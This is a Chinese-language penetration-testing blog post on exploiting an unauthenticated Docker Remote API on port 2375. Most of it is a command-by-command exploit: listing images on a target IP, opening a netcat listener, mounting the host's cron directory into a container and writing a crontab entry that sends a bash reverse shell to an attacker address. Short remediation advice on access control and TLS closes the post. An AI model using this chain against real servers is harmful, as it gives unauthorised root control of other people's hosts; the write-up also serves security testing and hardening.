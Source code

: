 ```yaml
---
title: Docker Remote API 未授权访问漏洞利用
date: 2020-05-23 18:10:23
index_img: /img/docker.png
banner_img: /img/docker.png
tags:
  -  安全
categories:
  - 渗透测试 
---
```


#### 漏洞简介及危害
Docker是一个开源的应用容器引擎，让开发者可以打包他们的应用以及依赖包到一个可移植的容器中，然后发布到任何流行的LINUX机器上，也可以实现虚拟化。 Docker swarm 是一个将docker集群变成单一虚拟的docker host工具，使用标准的Docker API，能够方便docker集群的管理和扩展，由docker官方提供。

Docker Remote API 是一个取代远程命令行界面（rcli）的REST API。Docker Remote API如配置不当可导致未授权访问，攻击者利用 docker client 或者 http 直接请求就可以访问这个 API，可能导致敏感信息泄露，黑客也可以删除Docker上的数据。 攻击者可进一步利用Docker自身特性，直接访问宿主机上的敏感信息，或对敏感文件进行修改，最终完全控制服务器。

#### 漏洞利用
##### 环境
```
# 靶机IP/端口
172.19.101.34 2375
# 操作系统
linux_x86
```
##### 未授权访问测试
```
docker -H tcp://172.19.101.34:2375 images

# 返回镜像信息，漏洞存在

```
##### 反弹shell
```
# 在攻击主机上打开8088端口监听
[root@]# nc -vv -l -p 8088
```
##### 写入shell

创建容器，利用bash和crontab计划任务向宿主机写入shell，centos系统挂载路径为。 /var/spool/cron/root；ubuntu系统为/var/spool/cron/crontabs/root；
```
# 查看宿主机可用镜像
docker -H tcp://172.19.101.34:2375 images

# 选择合适镜像创建容器
docker -H tcp://172.19.101.34:2375 run -it -v /var/spool/cron/:/var/spool/cron/ image_id /bin/bash

# 启动刚刚创建的容器并连接
docker -H tcp://172.19.101.34:2375 start ct_id
docker -H tcp://172.19.101.34:2375 exec -it --user root ct_id /bin/bash

# 执行shell反弹命令
root@bfd2539dfdc8:/# echo '* * * * * bash -i >& /dev/tcp/attack_ip/8088 0>&1' >> /var/spool/cron/root
```
##### 成功反弹宿主机shell
![image](/img/docker_res.png)

> P.S ，测试完记得删掉存在漏洞的容器
#### 修复建议
临时解决方案：

1、对2375端口做网络访问控制，如设置iptables策略仅允许指定的IP来访问Docker接口；

2、修改docker swarm的认证方式，使用TLS认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS这两篇文档，说的是配置好TLS后，Docker CLI 在发送命令到docker daemon之前，会首先发送它的证书，如果证书是由daemon信任的CA所签名的，才可以继续执行。

**总之、不要将端口直接暴露在公网，内网中使用需要设置严格的访问规则，并使用TLS。**

[🔗知乎链接](https://zhuanlan.zhihu.com/p/142798377)
